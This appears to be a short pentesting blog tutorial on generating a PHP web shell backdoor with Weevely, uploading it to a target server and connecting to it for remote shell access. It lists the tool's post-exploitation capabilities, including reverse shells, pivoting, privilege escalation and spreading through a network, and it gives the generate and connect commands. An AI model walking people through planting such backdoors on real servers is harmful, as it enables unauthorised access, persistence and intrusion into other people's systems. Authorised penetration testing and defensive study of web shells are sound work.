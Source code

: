 ```yaml
---
layout: post
title: PHP backdoor with Weevely
---
```


In this tutorial we will create a backdoor by uploading PHP file on the server and gaining a backdoor.

Weevely comes pre-installed on kali-linux.

**Some other features of weevely include:**

•	Shell access to the target


•	SQL console pivoting on the target


•	HTTP proxy pivoting on the target


•	Upload and download files


•	Spawn reverse and direct TCP shells


•	Audit remote target security


•	Run Meterpreter payloads


•	Port scan pivoting on target


•	Mount the remote filesystem


•	Bruteforce SQL accounts pivoting on the target.



Weevely is a web shell designed for post-exploitation purposes that can be extended over the network at runtime.

Upload weevely PHP agent to a target web server to get remote shell access to it. It has more than 30 modules to assist administrative tasks, maintain access, provide situational awareness, elevate privileges, and spread into the target network.


**How to Generate a PHP Backdoor using Weevely?**
 
weevely generate <password> <path>

![](/images/2020-1-28-weevely/1.png)

Upload the 405.php to the sever. 


![](/images/2020-1-28-weevely/2.png)


To establish the session: 

weevely http://192.168.1.107/405.php 0xcf

![](/images/2020-1-28-weevely/3.png)


More on installation : [https://github.com/epinna/weevely3/wiki/Install](https://github.com/epinna/weevely3/wiki/Install)

Credit: MazenElzanaty @pentesttools
